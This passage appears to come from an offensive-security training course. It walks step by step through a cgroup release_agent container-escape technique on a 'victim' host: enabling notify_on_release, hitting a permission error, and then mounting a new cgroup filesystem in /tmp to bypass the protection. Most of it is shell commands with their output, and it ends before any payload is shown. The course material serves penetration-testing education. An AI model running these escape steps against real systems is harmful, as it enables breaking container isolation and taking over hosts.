 ```
```

> Listing 52 - Creating the escapeme Cgroup

Next, we need to enable the notifications when the cgroup contains no processes. We'll do this by enabling the **notify_on_release** feature. This is done by writing a **1** to the **/sys/fs/cgroup/devices/escapeme/notify_on_release** file.

```
victim_release_agent:~# echo 1 > /sys/fs/cgroup/devices/escapeme/notify_on_release

victim_release_agent:~# cat /sys/fs/cgroup/devices/escapeme/notify_on_release
1
```

> Listing 53 - Enable notify_on_release

Now when the last process in the _escapeme_ cgroup terminates, the kernel will execute whatever command is in the **release_agent** file. The **release_agent** is in the root of the cgroup controller rather than in the specific cgroup. Since we want to execute a command we control, we'll use the _host_path_ variable we created earlier to execute a script in the root of the container. We'll call our script **cmd**.

```
victim_release_agent:~# echo $host_path/cmd >/sys/fs/cgroup/devices/release_agent
-ash: can't create /sys/fs/cgroup/devices/release_agent: Permission denied
```

> Listing 54 - Setting the release_agent - Error

Unfortunately, we receive an error. The kernel must have some additional protections that prevents us from writing to the **release_agent** file. Not all systems have this protection, but our target does. However, there are ways to circumvent this.

If we mount a new cgroup file system to a directory we control, we might be able to bypass whatever protection the system is enforcing. Let's start by deleting the cgroup we created. We can't use **rm -rf** here since **rm** will first delete the files before it deletes the directory and the files are not allowed to be deleted. Instead, we need to use **rmdir**, which will just delete the directory.

Once we've cleaned our work, we'll create a new directory in the **/tmp** directory. Next, we'll use **mount** to mount a cgroup file system to this directory. We also need to specify which cgroup controller to use with **-o**.

```
victim_release_agent:~# rmdir /sys/fs/cgroup/devices/escapeme

victim_release_agent:~# mkdir /tmp/cgrp

victim_release_agent:~# mount -t cgroup -o devices cgroup /tmp/cgrp
```

> Listing 55 - Mounting New cgroup Filesystem

Now we can create a new cgroup again and enable the notification. This time, we'll name the cgroup **x** and use the **/tmp/cgrp** directory instead of the one in the **sys** file system.

```
victim_release_agent:~# mkdir /tmp/cgrp/x

victim_release_agent:~# echo 1 > /tmp/cgrp/x/notify_on_release
```
